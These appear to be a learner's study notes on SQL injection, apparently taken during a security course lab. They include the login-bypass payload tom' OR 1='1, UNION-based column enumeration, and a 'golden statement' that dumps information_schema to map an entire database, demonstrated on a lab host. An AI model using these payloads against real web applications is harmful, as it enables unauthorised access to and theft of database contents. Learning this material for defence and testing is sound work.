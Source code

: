 **see information in the columns**
select tireid,name,cost,size session.Tires;
select year,name,cost from session.car;

**use union to combine outputs**
ex:
select year,name,cost from session.car UNION select name,size,cost from session.Tires;

**SQL Injection - Considerations**
Requires Valid SQL Queries
Fully patched systems can be vulnerable due to misconfiguration
Input Field Sanitization
String vs Integer Values
Is INFORMATION_SCHEMA Database available?
GET Request versus POST Request HTTP methods

**Unsanitized vs Sanitized Fields**
Unsanitized: input fields can be found using a Single Quote ⇒ '
    Will return extraneous information
    ' closes a variable, to allow for additional statements/clauses
    May show no errors or generic error (harder Injection)

Sanitized: input fields are checked for items that might harm the database (Items are removed, escaped, or turned into a single string)
Validation: checks inputs to ensure it meets a criteria (String doesn’t contain ')

Example - Injecting Your Statement -> do this if you see a login box. (use ; in front of your commands)
User enters TOM' OR 1='1 in the name and pass fields
Truth Statement: tom' OR 1='1
Server-Side query executed would appear like this:
SELECT id FROM users WHERE name=‘tom' OR 1='1’ AND pass=‘tom' OR 1='1’

**change this from a post to a get using developer tools**
1. open network tab, send the credentials again
2. hit the request tab on the right hand side
3. set a value in the url -> set the value in the request field to raw
4. copy and paste that value into the url with a ? after the php
5. view page source
SQL on database POST Method
http://10.50.28.178/Union.html
Ford
Dodge
Honda
Audi

Audi' OR 1='1 -> ends up showing full table.
now we can try using union -> Audi' Union select 1,2,3,4,5 #
    You're guessing the numbers in union select until you see the table displayed properly.
UNION select <column>,<column>,<column> FROM <Databases>.<Tables>
table_schema = Databases names
table_name = Tables names
column_name = Columns names

"Golden statement" -> Audi' Union select table_schema,2,table_name,column_name,5 FROM information_schema.columns #
(this shows the entire database pretty much)

